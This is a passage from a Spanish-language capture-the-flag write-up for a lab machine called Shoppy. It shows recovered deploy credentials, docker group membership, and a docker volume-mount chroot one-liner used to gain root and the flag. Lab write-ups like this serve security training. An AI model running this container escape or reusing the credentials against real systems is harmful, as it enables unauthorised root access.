 ```

Asi que volvemos a ejecutar el binario pasandole eso y vemos que nos muestra las credenciales de deploy:

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Una vez dentro y si pones el comando ```ìd``` podemos ver como pertenecemos al grupo ```docker``` y podemos ejecutar el comando de docker para montar un contenedor:

```uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)```

Si buscamos en GFObins una manera de escalar privilegios nos encontramos que podemos montar un contenedor en ```/``` y consiguiendo acceso como root mientras tengamos la imagen ```alpine``` en docker.

Asi que ingresamos:

```docker run -v /:/mnt --rm -it alpine chroot /mnt sh```

Y ahora ya somos root y tenemos la flag:

![](/assets/img/shoppy/root.png)

Eso ha sido todo, gracias por leer ❤
